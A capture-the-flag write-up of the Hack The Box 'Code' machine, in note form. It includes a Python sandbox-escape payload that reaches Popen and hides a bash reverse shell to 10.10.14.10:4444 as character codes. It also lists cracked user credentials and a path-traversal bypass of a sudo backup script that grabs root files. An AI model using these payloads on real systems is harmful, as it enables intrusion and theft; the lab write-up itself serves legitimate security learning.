# Code HTB Easy Linux Machine

  

Started: 5/8/25
Pwned: 5/8/25

## Nmap Output
  

popen was blocked  
  

RevShells basic format: bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'  

x = ().__class__.__bases__[0].__subclasses__()
e = [c for c in x if c.__name__ == ''.join([chr(i) for i in [80,111,112,101,110]])][0]
cmd = ''.join([chr(i) for i in [
    98,97,115,104,32,45,99,32,98,97,115,104,32,45,105,32,62,38,32,
    47,100,101,118,47,116,99,112,47,49,48,46,49,48,46,49,52,46,49,48,
    47,52,52,52,52,32,48,62,38,49
]])  # bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'
e(['/bin/bash', '-c', cmd], shell=False) 

RevShell/Foothold

Command: nc -lvnp 4444 

  

  

database.db  
  

crackstation  
  

development:development  
martin:nafeelswordsmaster  

sudo -l  
  

backy.sh  
  

Getting Root  

  

bypasses the filter since it removes ../ but will leave ../ for path traversal. Since it's running as sudo it will successfully grab the files  

  

  

We grabbed the flag but we can also grab the ssh private key of root and log into the system as root if we wanted.
